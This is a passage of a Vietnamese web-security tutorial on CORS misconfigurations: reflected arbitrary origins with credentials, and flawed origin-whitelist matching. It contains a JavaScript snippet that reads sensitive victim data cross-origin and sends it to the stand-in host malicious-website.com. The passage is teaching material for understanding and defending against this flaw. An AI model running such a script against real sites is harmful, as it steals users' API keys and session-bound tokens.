 Các header này tuyên bố rằng truy cập được phép từ miền gửi request (`malicious-website.com`) và các request xuyên miền có thể bao gồm cookie (`Access-Control-Allow-Credentials: true`) nên sẽ được xử lý trong phiên.

Vì ứng dụng phản chiếu các origin tùy ý trong header `Access-Control-Allow-Origin`, điều này có nghĩa là **bất kỳ** miền nào cũng có thể truy cập tài nguyên từ miền dễ bị tổn thương. Nếu phản hồi chứa bất kỳ thông tin nhạy cảm nào như khóa API hoặc token CSRF, bạn có thể lấy được chúng bằng cách đặt script sau lên website của mình:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

## **Errors parsing Origin headers**

Một số ứng dụng hỗ trợ truy cập từ nhiều origin bằng cách sử dụng một **danh sách trắng (whitelist)** các origin được phép. Khi nhận được một yêu cầu CORS, origin được cung cấp sẽ được so sánh với danh sách trắng. Nếu origin xuất hiện trong danh sách trắng thì nó sẽ được phản chiếu vào header `Access-Control-Allow-Origin` để cấp quyền truy cập. Ví dụ, ứng dụng nhận được một request bình thường như sau:

```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

Ứng dụng kiểm tra origin được cung cấp so với danh sách origin được phép và, nếu nó có trong danh sách, phản chiếu origin như sau:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Các sai sót thường xuất hiện khi triển khai danh sách trắng origin cho CORS. Một số tổ chức quyết định cho phép truy cập từ tất cả các **subdomain** của họ (kể cả những subdomain tương lai chưa tồn tại). Một vài ứng dụng cho phép truy cập từ các domain của các tổ chức khác bao gồm cả subdomain của họ. Những quy tắc này thường được triển khai bằng cách khớp tiền tố hoặc hậu tố URL, hoặc sử dụng **biểu thức chính quy (regular expressions)**. Bất kỳ sai sót nào trong việc triển khai có thể dẫn tới việc cấp quyền truy cập cho các domain ngoài dự định.

Ví dụ, giả sử một ứng dụng cấp quyền truy cập cho tất cả các domain kết thúc bằng:

```
normal-website.com
```
